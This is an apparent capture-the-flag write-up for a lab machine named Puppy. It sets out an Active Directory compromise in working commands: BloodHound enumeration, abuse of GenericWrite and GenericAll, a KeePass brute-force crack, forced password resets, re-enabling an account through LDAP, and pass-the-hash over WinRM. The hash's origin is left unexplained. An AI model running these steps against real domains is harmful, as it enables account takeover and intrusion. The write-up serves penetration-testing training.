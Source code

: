 
![](Puppy_Cover_.png)


```
Machine Information

As is common in real life pentests, you will start the Puppy box with credentials for the following account: levi.james / KingofAkron2025!
```

```
└─# nmap 10.10.11.70     

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
2049/tcp open  nfs
3260/tcp open  iscsi
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```



## USER_ACCESS

Running Bloodhound ... 

```
└─# bloodhound-python  --username levi.james --password 'KingofAkron2025!' --domain puppy.htb --domain-controller DC.PUPPY.HTB --nameserver 10.10.11.70 --collectionmethod All --zip
```


![](Puppy_Generic-Write.png)

Cool ! levi.james's member --> HR --> [GenericWrite](https://bloodhound.specterops.io/resources/edges/generic-write) --> Developers  


```
With GenericWrite over a group, add yourself or another principal you control to the group. See the abuse info under the AddMembers edge for more information.
```


So, Adding levi.james to Developers Group, we can acess the DEV share , where we found a database file.


```
└─# bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
[+] levi.james added to DEVELOPERS
```

![](Puppy_kdbx.png)


Lets Crack the master-key and see what's inside the file ; to crack we using [keepass4brute](https://github.com/r3nt0n/keepass4brute) 

```
└─# bash keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt

[*] Password found: liverpool
```

![](Puppy_antony-creds.png)

Cool ! Out of others , the user ant.edwards is interesting and got some privileges ; 


![](Puppy_adam.png)


ant.edwards --> [GenericAll](https://bloodhound.specterops.io/resources/edges/generic-all) --> adam.silver --> PSRemote

```
└─# bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' set password adam.silver 'P@ssw0rd2025!'
[+] Password changed successfully!
```

![](Puppy_Node.png)

Now, As we changed the password of adam.silver  ; But the account has been disabled , so we gotta enable the account.

```
ldapsearch -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"

name: Adam D. Silver
objectGUID:: 6XTdGwRTsk6ta8cxNx8K6w==
userAccountControl: 66050 [Disabled]

[ UAC : 66050 -> Disabled Account ; So we gotta modify the UAC to 66048 ]


name: Anthony J. Edwards
objectGUID:: x6FSB985RE+hYLmXqzCKaQ==
userAccountControl: 66048 [Enabled]
```

And we can modify the attributes via ldapmodify ! --> Because We got GenericAll to the user. 

```
└─# ldapmodify -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF                                              
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF
Enter LDAP Password: 

modifying entry "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB"
```

Login' with winrm !!

```
└─# evil-winrm -i 10.10.11.70 -u adam.silver -p 'P@ssw0rd2025!'
```



## PRIVILEGE_ESCALATE


```
└─# evil-winrm -i 10.10.11.70 -u administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b

*Evil-WinRM* PS C:\Users\Administrator\DEsktop> cat root.txt
b48863b2179a7f01d2e526e4e908f0b4

```